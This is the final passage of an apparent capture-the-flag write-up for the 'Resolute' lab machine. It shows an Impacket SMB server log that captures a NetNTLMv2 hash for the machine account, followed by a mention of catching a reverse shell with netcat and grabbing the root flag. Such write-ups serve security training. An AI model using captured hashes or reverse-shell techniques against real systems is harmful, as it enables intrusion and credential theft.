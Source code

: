 Observe the smb log.

```
Impacket v0.9.22.dev1+20200428.191254.96c7a512 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.169,53053)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:4141414141414141:2ed16af8e796d6b1176eeb22393f4962:01010000000000000016f5a74025d60199bb169eb052f44500000000010010005200430057005a006e006d006200680002001000510073006e004f006300720043007100030010005200430057005a006e006d006200680004001000510073006e004f006300720043007100070008000016f5a74025d601060004000200000008003000300000000000000000000000004000005ef8595e750dceb213ef48f95cdf6646e1eaca98af7a162f8df751cf02ec78920a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320031000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:RESOLUTE)
[*] Closing down connection (10.10.10.169,53053)
[*] Remaining connections []
```

Now, go back and check the netcat listener, I got the reverse shell..!!

![alt text](https://raw.githubusercontent.com/VitthalS/VitthalS.github.io/master/writeups/resolute/shell.png)

Lets grab the *root.txt* flag.

![alt text](https://raw.githubusercontent.com/VitthalS/VitthalS.github.io/master/writeups/resolute/root.png)

**Rooted :) Your feedback is appreciated !**
